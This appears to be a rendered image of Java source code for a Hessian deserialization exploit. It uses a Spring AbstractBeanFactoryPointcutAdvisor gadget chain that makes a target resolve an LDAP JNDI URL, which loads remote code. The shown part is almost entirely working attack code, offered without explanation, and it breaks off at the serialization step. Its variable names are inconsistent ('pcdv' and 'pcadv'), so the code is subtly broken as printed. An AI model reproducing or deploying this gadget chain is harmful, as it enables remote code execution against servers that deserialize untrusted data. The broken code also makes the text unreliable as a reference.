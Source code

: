 ```java
/**
 * @Author: H3rmesk1t
 * @Data: 2022/3/11 11:34 pm
 */
public class SpringAbstractBeanFactoryPointcutAdvisorGadget {

    public static Field getField (final Class<?> clazz, final String fieldName ) throws Exception {
        try {
            Field field = clazz.getDeclaredField(fieldName);
            if ( field != null )
                field.setAccessible(true);
            else if ( clazz.getSuperclass() != null )
                field = getField(clazz.getSuperclass(), fieldName);

            return field;
        }
        catch ( NoSuchFieldException e ) {
            if ( !clazz.getSuperclass().equals(Object.class) ) {
                return getField(clazz.getSuperclass(), fieldName);
            }
            throw e;
        }
    }

    public static void setFieldValue ( final Object obj, final String fieldName, final Object value ) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }

    public static void main(String[] args) throws Exception {

        String jndiUrl = "ldap://127.0.0.1:1389/fjkrsc";
        SimpleJndiBeanFactory bf = new SimpleJndiBeanFactory();
        bf.setShareableResources(jndiUrl);
        setFieldValue(bf, "logger", new NoOpLog());
        setFieldValue(bf.getJndiTemplate(), "logger", new NoOpLog());

        DefaultBeanFactoryPointcutAdvisor pcdv = new DefaultBeanFactoryPointcutAdvisor();
        pcadv.setBeanFactory(bf);
        pcdv.setAdviceBeanName(jndiUrl);

        HashMap<Object, Object> hashMap = new HashMap<>();
        setFieldValue(hashMap, "size", 2);
        Class<?> nodeC;
        try {
            nodeC = Class.forName("java.util.HashMap$Node");
        }
        catch ( ClassNotFoundException e ) {
            nodeC = Class.forName("java.util.HashMap$Entry");
        }
        Constructor<?> nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);

        Object tbl = Array.newInstance(nodeC, 2);
        Array.set(tbl, 0, nodeCons.newInstance(0, pcadv, pcadv, null));
        Array.set(tbl, 1, nodeCons.newInstance(0, new DefaultBeanFactoryPointcutAdvisor(), new DefaultBeanFactoryPointcutAdvisor(), null));
        setFieldValue(hashMap, "table", tbl);

        // Hessian serializes data
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
```